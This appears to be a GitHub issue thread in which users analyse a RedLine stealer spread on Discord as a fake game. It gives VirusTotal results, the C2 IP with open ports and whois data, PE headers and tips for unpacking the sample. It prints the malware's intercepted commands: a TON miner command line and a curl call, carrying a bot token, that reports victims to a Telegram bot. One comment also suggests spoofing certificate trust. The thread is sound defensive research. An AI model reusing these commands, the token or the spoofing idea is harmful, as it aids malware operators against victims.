

tl;dr redline stealer
VirusTotal results:
M5_Game_v3.rar: https://www.virustotal.com/gui/file/b8d3a1332b9237b815e81c913b6e02958af581fa02d75c825e77dc9f9c6a2b63/detection
Contents:
M5_Game_v3.exe: https://www.virustotal.com/gui/file/0417318e99ec3e21b5f200a682d97603dd1cce4a0c827c3e3c234e92b11ed7e9/detection
Crowdsourced Sigma Rules:
4 matches for rule File deletion via CMD (via cmdline) by Ariel Millahuel from SOC Prime Threat Detection Marketplace
Detects "cmd" utilization to self-delete files in some critical Windows destinations.
1 match for rule Sysmon Configuration Change by frack113 from Sigma Integrated Rule Set (GitHub)
Detects a Sysmon configuration change, which could be the result of a legitimate reconfiguration or someone trying manipulate the configuration
28 matches for rule Stop Windows Service by Jakob Weinzettl, oscd.community from Sigma Integrated Rule Set (GitHub)
Detects a windows service to be stopped
Contacted IPs:
193.106.191.100 6/90 (Russia): https://www.virustotal.com/gui/ip-address/193.106.191.100
Under the community tab, user [ThreatFox] made a collection about Redline which involved the contacted IP.
Using any.run I was able to check it out: https://app.any.run/tasks/2fe74959-3df1-44fc-994e-b02cff21229f
Checking out the connections, I was able to find the IP which is marked malicious and has comparatively high upload.
It also shows traditional infostealer activity like reading cookies. Using this, it seems safe to assume that all of the accounts posting this from Discord were affected accounts.
I could go further in but simply it's not worth it.
Thanks for this
Accounts on discord are sending a direct file link to the archive saying it's a game, and they want people to test it.
For everyone that reads this, stay safe, lol.
Also found from a piracy server.
Confirms my suspicion it's victims and not just a ton of alts.
Confirms my suspicion it's victims and not just a ton of alts.
its how the cycle works, with redline at least, been following it since June of 2021

tl;dr redline stealer
VirusTotal results:
M5_Game_v3.rar: https://www.virustotal.com/gui/file/b8d3a1332b9237b815e81c913b6e02958af581fa02d75c825e77dc9f9c6a2b63/detection
Contents:
M5_Game_v3.exe: https://www.virustotal.com/gui/file/0417318e99ec3e21b5f200a682d97603dd1cce4a0c827c3e3c234e92b11ed7e9/detection
Crowdsourced Sigma Rules:
4 matches for rule File deletion via CMD (via cmdline) by Ariel Millahuel from SOC Prime Threat Detection Marketplace
Detects "cmd" utilization to self-delete files in some critical Windows destinations.
1 match for rule Sysmon Configuration Change by frack113 from Sigma Integrated Rule Set (GitHub)
Detects a Sysmon configuration change, which could be the result of a legitimate reconfiguration or someone trying manipulate the configuration
28 matches for rule Stop Windows Service by Jakob Weinzettl, oscd.community from Sigma Integrated Rule Set (GitHub)
Detects a windows service to be stopped
Contacted IPs:
193.106.191.100 6/90 (Russia): https://www.virustotal.com/gui/ip-address/193.106.191.100
Under the community tab, user [ThreatFox] made a collection about Redline which involved the contacted IP.
Using any.run I was able to check it out: https://app.any.run/tasks/2fe74959-3df1-44fc-994e-b02cff21229f
Checking out the connections, I was able to find the IP which is marked malicious and has comparatively high upload.
It also shows traditional infostealer activity like reading cookies. Using this, it seems safe to assume that all of the accounts posting this from Discord were affected accounts.
I could go further in but simply it's not worth it.
https://threatfox.abuse.ch/ioc/379318/ if anyone was wondering
Confirms my suspicion it's victims and not just a ton of alts.
Yep, the account that it was posted from was definitely hacked and also had mutual friends on it + linked accounts. That sucks.
its how the cycle works, with redline at least, been following it since June of 2021
Just saw this sample and wanted to investigate, good to know that it's been around for a while.
https://threatfox.abuse.ch/ioc/379318/ if anyone was wondering
Thanks, the collection part makes a lot more sense.
its how the cycle works, with redline at least, been following it since June of 2021
Just saw this sample and wanted to investigate, good to know that it's been around for a while.
https://threatfox.abuse.ch/ioc/379318/ if anyone was wondering
Thanks, the collection part makes a lot more sense.
the stealer itself appeared in march of 2020, i only got to tracking it in june of 2021 once i saw the amount of phishing on discord and surprise surprise they're interlinked
the stealer itself appeared in march of 2020, i only got to tracking it in june of 2021 once i saw the amount of phishing on discord and surprise surprise they're interlinked
Guess I should have connected the dots between the amount of nitro phishing URLs popping up and an infostealer. I had some suspicion about it being a generic fake login page, as I never checked out any of the sites, but didn't really think it would be an infostealer like, well, how it is revealed.
Guess I should have connected the dots between the amount of nitro phishing URLs popping up and an infostealer. I had some suspicion about it being a generic fake login page, as I never checked out any of the sites, but didn't really think it would be an infostealer like, well, how it is revealed.
fair enough
Thanks for this
Accounts on discord are sending a direct file link to the archive saying it's a game, and they want people to test it.
For everyone that reads this, stay safe, lol.
I actually just got in contact with the person who got their account hacked, and they are trying to take control of their account again. I really hope they get it back, they had no idea they even got hacked.
Open ports:
Discovered open port 3389/tcp on 193.106.191.100
Discovered open port 5112/tcp on 193.106.191.100
Discovered open port 49668/tcp on 193.106.191.100
Discovered open port 135/tcp on 193.106.191.100
Discovered open port 445/tcp on 193.106.191.100
Discovered open port 7766/tcp on 193.106.191.100
Discovered open port 139/tcp on 193.106.191.100
Discovered open port 49670/tcp on 193.106.191.100
Discovered open port 49665/tcp on 193.106.191.100
Discovered open port 49669/tcp on 193.106.191.100
Discovered open port 49676/tcp on 193.106.191.100
Discovered open port 49666/tcp on 193.106.191.100
Discovered open port 47001/tcp on 193.106.191.100
Discovered open port 5985/tcp on 193.106.191.100
Discovered open port 49667/tcp on 193.106.191.100
Discovered open port 49664/tcp on 193.106.191.100
Seems like an offshore RDP
I ran a whois query on that IP, and apparently it's linked to some weird company called Kanzas LLC? With one of it's addresses being "RUSSIAN FEDERATION"??
switz@swotzterm cwd:~ $ whois 193.106.191.100
% IANA WHOIS server
% for more information on IANA, visit http://www.iana.org
% This query returned 1 object
refer: whois.ripe.net
inetnum: 193.0.0.0 - 193.255.255.255
organisation: RIPE NCC
status: ALLOCATED
whois: whois.ripe.net
changed: 1993-05
source: IANA
% This is the RIPE Database query service.
% The objects are in RPSL format.
%
% The RIPE Database is subject to Terms and Conditions.
% See http://www.ripe.net/db/support/db-terms-conditions.pdf
% Note: this output has been filtered.
% To receive output for a database update, use the "-B" flag.
% Information related to '193.106.191.0 - 193.106.191.255'
% Abuse contact for '193.106.191.0 - 193.106.191.255' is 'info@kanzas.msk.ru'
inetnum: 193.106.191.0 - 193.106.191.255
netname: RU-KANZAS-20210430
country: RU
org: ORG-KL329-RIPE
admin-c: NF3107-RIPE
tech-c: NF3107-RIPE
status: ALLOCATED PA
mnt-by: lir-ru-kanzas-1-MNT
mnt-by: RIPE-NCC-HM-MNT
mnt-lower: lir-ru-kanzas-1-MNT
mnt-routes: lir-ru-kanzas-1-MNT
created: 2021-04-30T15:31:31Z
last-modified: 2021-04-30T15:31:31Z
source: RIPE
organisation: ORG-KL329-RIPE
org-name: Kanzas LLC
org-type: LIR
address: ul. Ordzhonikidze, 1, pom. XV, kom. 5
address: 115419
address: Moscow
address: RUSSIAN FEDERATION
country: RU
phone: +7 495 1440753
admin-c: NF3107-RIPE
tech-c: NF3107-RIPE
abuse-c: AR62996-RIPE
mnt-ref: lir-ru-kanzas-1-MNT
mnt-by: RIPE-NCC-HM-MNT
mnt-by: lir-ru-kanzas-1-MNT
created: 2021-04-28T11:07:00Z
last-modified: 2021-08-18T08:33:32Z
source: RIPE # Filtered
role: Nikolay Frolov
address: ul. Ordzhonikidze, 1, pom. XV, kom. 5
address: 115419
address: Moscow
address: RUSSIAN FEDERATION
phone: +7 495 1440753
nic-hdl: NF3107-RIPE
mnt-by: lir-ru-kanzas-1-MNT
created: 2021-04-28T11:07:00Z
last-modified: 2021-04-28T11:07:00Z
source: RIPE # Filtered
% Information related to '193.106.191.0/24AS59940'
route: 193.106.191.0/24
origin: AS59940
mnt-by: lir-ru-kanzas-1-MNT
created: 2021-07-22T14:12:16Z
last-modified: 2021-07-22T14:12:16Z
source: RIPE
% This query was served by the RIPE Database Query Service version 1.102.2 (BLAARKOP)
I assume the "RUSSIAN FEDERATION" part is referring to Russia. I can check and see if there's anything relating to Kanzas.
This is about where I can get it down to. Throwing the top address line returns no results.
https://www.openstreetmap.org/search?query=115419%2C%20Moscow%2C%20Russian%20Federation#map=10/55.7124/37.6027
As for Kanzas LLC, couldn't find much about them besides having IPs listed on AbuseIPDB.
193.106.191.69 and 193.106.191.27
There's also an IPInfo, here.
I intercepted commands being ran by this program and this is what I found:
- This is definitely a cryptocurrency miner (attempting to) mine TON using the Whales pool
C:\Windows\bfsvc.exe -a TON --pool https://server1.whalestonpool.com --user EQBq1q3_HnFZB6F-owuWLV59J9-uBT3M1660Lr52sytnwupF
- Unsure what this is for
C:\Windows\explorer.exe "2" "VirtualBox%20Graphics%20Adapter%20for%20Windows%208+" "IGS" "ton"
- after starting this process, it is sending an API request to Telegram via CURL using a bot to direct message a user by the name of Retworez
curl "https://api.telegram.org/bot5097867738:AAGqWiZLyhuZad2Gxw_ZDUjTmEdd_vbfI40/sendMessage?chat_id=2097201889&text=%F0%9F%99%88 New worker!%0AGPU: VirtualBox Graphics Adapter for Windows 8+%0AWorker Tag: IGS"
Additionally, I'm not sure where it's coming from but I did notice the original program closes almost instantly and runs ClickOnce application via AppLaunch.exe that runs these commands.
do you guys need reverse engineering ?
do you guys need reverse engineering ?
I attempted to reverse engineer it but I don't recognize the file structure of the exe
I attempted to reverse engineer it but I don't recognize the file structure of the exe
what do you mean by that
$ objdump -p M5_Game_v3.exe
M5_Game_v3.exe: file format pei-i386
Characteristics 0x102
executable
32 bit words
Time/Date Sat Feb 12 15:53:58 2022
Magic 010b (PE32)
MajorLinkerVersion 14
MinorLinkerVersion 29
SizeOfCode 00032800
SizeOfInitializedData 0002ca00
SizeOfUninitializedData 00000000
AddressOfEntryPoint 00001000
BaseOfCode 00001000
BaseOfData 00035000
ImageBase 00400000
SectionAlignment 00001000
FileAlignment 00000200
MajorOSystemVersion 6
MinorOSystemVersion 0
MajorImageVersion 0
MinorImageVersion 0
MajorSubsystemVersion 6
MinorSubsystemVersion 0
Win32Version 00000000
SizeOfImage 004ee000
SizeOfHeaders 00000400
CheckSum 004aa8ff
Subsystem 00000003 (Windows CUI)
DllCharacteristics 00008100
SizeOfStackReserve 00100000
SizeOfStackCommit 00001000
SizeOfHeapReserve 00100000
SizeOfHeapCommit 00001000
LoaderFlags 00000000
NumberOfRvaAndSizes 00000010
The Data Directory
Entry 0 00000000 00000000 Export Directory [.edata (or where ever we found it)]
Entry 1 004a2c7c 00000194 Import Directory [parts of .idata]
Entry 2 00000000 00000000 Resource Directory [.rsrc]
Entry 3 00000000 00000000 Exception Directory [.pdata]
Entry 4 00450c00 00002200 Security Directory
Entry 5 004a2c08 00000008 Base Relocation Directory [.reloc]
Entry 6 00000000 00000000 Debug Directory
Entry 7 00000000 00000000 Description Directory
Entry 8 00000000 00000000 Special Directory
Entry 9 00000000 00000000 Thread Storage Directory [.tls]
Entry a 00000000 00000000 Load Configuration Directory
Entry b 00000000 00000000 Bound Import Directory
Entry c 00000000 00000000 Import Address Table Directory
Entry d 00000000 00000000 Delay Import Directory
Entry e 00000000 00000000 CLR Runtime Header
Entry f 00000000 00100000 Reserved
There is an import table in .7lftVtB at 0x8a2c7c
The Import Tables (interpreted .7lftVtB section contents)
vma: Hint Time Forward DLL First
Table Stamp Chain Name Thunk
004a2c7c 00000000 00000000 00000000 004a2c3c 004a2c28
DLL Name: kernel32.dll
vma: Hint/Ord Member-Name Bound-To
4a2c49 0 GetProcAddress
4a2c5a 0 GetModuleHandleA
4a2c6d 0 LoadLibraryA
004a2c90 00000000 00000000 00000000 004a2d1c 004a2d64
DLL Name: user32.dll
vma: Hint/Ord Member-Name Bound-To
4a2d94 0 MessageBeep
004a2ca4 00000000 00000000 00000000 004a2d27 004a2d6c
DLL Name: wtsapi32.dll
vma: Hint/Ord Member-Name Bound-To
4a2da2 0 WTSSendMessageW
004a2cb8 00000000 00000000 00000000 004a2d34 004a2d74
DLL Name: user32.dll
vma: Hint/Ord Member-Name Bound-To
4a2db4 0 GetProcessWindowStation
004a2ccc 00000000 00000000 00000000 004a2d3f 004a2d7c
DLL Name: user32.dll
vma: Hint/Ord Member-Name Bound-To
4a2dce 0 GetProcessWindowStation
004a2ce0 00000000 00000000 00000000 004a2d4a 004a2d84
DLL Name: oleaut32.dll
vma: Hint/Ord Member-Name Bound-To
4a2de8 0 VariantChangeTypeEx
004a2cf4 00000000 00000000 00000000 004a2d57 004a2d8c
DLL Name: kernel32.dll
vma: Hint/Ord Member-Name Bound-To
4a2dfe 0 RaiseException
004a2d08 00000000 00000000 00000000 00000000 00000000
sec directory isn't empty?
what bout a section list?
what do you mean by that
I mean I tried figuring out what it was made with by opening it in a hex editor and 7zip but I don't recognize the structure
i see, they should use a winverifytrust hijack to make the fake nvidia certificate to appear VALID.
tho, it need to run at least first. (poc)
https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf
Section
seg000 0000000000401000 0000000000411000 R W X . L para 0001 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
seg001 0000000000411000 0000000000435000 R W X . L para 0002 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
seg002 0000000000435000 0000000000445000 R W X . L para 0003 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
seg003 0000000000445000 0000000000447000 R W X . L para 0004 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
seg004 0000000000447000 00000000006BC000 R W X . L para 0005 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
seg005 00000000006BC000 000000000089E000 R W X . L para 0006 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
seg006 000000000089E000 00000000008A2000 R W X . L para 0007 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
.7lftVtB 00000000008A2000 00000000008A2C28 R W X . L para 0008 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
.idata 00000000008A2C28 00000000008A2D90 R W X . L para 000A public XTRN 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
.7lftVtB 00000000008A2D90 00000000008ED000 R W X . L para 0008 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
.adata 00000000008ED000 00000000008EE000 R W X . L para 0009 public CODE 32 0000 0000 0001 FFFFFFFFFFFFFFFF FFFFFFFFFFFFFFFF
this file is protected, maybe upx? anyone can post a memory dump of it ? or try to unpack it using upx -d ?
* after starting this process, it is sending an API request to Telegram via CURL using a bot to direct message a user by the name of Retworez
That nickname appears here https://lolz.guru/threads/3486602. social engineering forum. on that page also appears name playar. go to that page on forum and there is some kind of team which give away that software or something like this. also they mention in screenshots that build already crypted
That nickname appears here https://lolz.guru/threads/3486602. social engineering forum. on that page also appears name playar. go to that page on forum and there is some kind of team which give away that software or something like this. also they mention in screenshots that build already crypted
well, lolz.guru isn't a S/E forum..
well, lolz.guru isn't a S/E forum..
were watching some video on youtube about 3 or 4 years ago. guy said that and i always thought like that :p
Open ports:
Discovered open port 3389/tcp on 193.106.191.100
Discovered open port 5112/tcp on 193.106.191.100
Discovered open port 49668/tcp on 193.106.191.100
Discovered open port 135/tcp on 193.106.191.100
Discovered open port 445/tcp on 193.106.191.100
Discovered open port 7766/tcp on 193.106.191.100
Discovered open port 139/tcp on 193.106.191.100
Discovered open port 49670/tcp on 193.106.191.100
Discovered open port 49665/tcp on 193.106.191.100
Discovered open port 49669/tcp on 193.106.191.100
Discovered open port 49676/tcp on 193.106.191.100
Discovered open port 49666/tcp on 193.106.191.100
Discovered open port 47001/tcp on 193.106.191.100
Discovered open port 5985/tcp on 193.106.191.100
Discovered open port 49667/tcp on 193.106.191.100
Discovered open port 49664/tcp on 193.106.191.100
Seems like an offshore RDP
its just a generic redline c2 server nothing too wild
I mean I tried figuring out what it was made with by opening it in a hex editor and 7zip but I don't recognize the structure
its made with C# and most likely packed
I found his crypto wallet: https://tonwhales.com/explorer/address/EQBq1q3_HnFZB6F-owuWLV59J9-uBT3M1660Lr52sytnwupF He started mining about a month ago.
I too have seen this in some redline samples (the same address to be specific), it is dropped by redline as an extra way to get the actor money by using the vicitm's machine i suppose
the source code for redline stealer has been leaked hence why the uptick in its distribution used to be a MaaS for 100-150 USD
its made with C# and most likely packed
recent samples I've seen ITW have been using ASProtect, if that helps the reverse engineering side of things
I assume we can't try using anything to easily reverse engineer it, like unpacked files since there's only one file. pstolarz/asprext might be helpful although unsure if it'll work.
Not sure what version but if its 1.3x-2.3 then this might also work, but unable to tell if it's designed for unpacking a specific app or if it unpacks generally.
Not sure what version but if its 1.3x-2.3 then this might also work, but unable to tell if it's designed for unpacking a specific app or if it unpacks generally.
https://www.manhunter.ru/download/28302/Aspr2.XX_unpacker.1.15F.zip
this version should be ideal, make sure to patch usual debugger thing, use scyllahide
Huge thanks for making people aware of this issue. I have sent a report to the Github Team so they can further take action.
Huge thanks for making people aware of this issue. I have sent a report to the Github Team so they can further take action.
it would be stupid for github to delete that repo, since
- it won't stop them from creating another github
- it will remove that issue and so the research and the warnings...
it would be stupid for github to delete that repo, since
- it won't stop them from creating another github
- it will remove that issue and so the research and the warnings...
I'm not going to lie Redline itself has been going strong for well over a year now I dont think running them off github or gitlab will affect them in anyway they'll just use another free file host
it will remove that issue and so the research and the warnings...
Most we can really do is copy everything and maybe move to another repo. I guess the possibility of a Discord/Matrix server is there but would be highly unorganized, and would probably be made by a random person.
Most we can really do is copy everything and maybe move to another repo. I guess the possibility of a Discord/Matrix server is there but would be highly unorganized, and would probably be made by a random person.
I have a sort of repo describing redline's delivery and execution characteristics but not sure if thats enough help haha
it would be stupid for github to delete that repo, since
- it won't stop them from creating another github
- it will remove that issue and so the research and the warnings...
That's actually true. My bad.
Jerem584/Malware-Research#1
please come now on that for further research, also if someone can make a discord. would be cool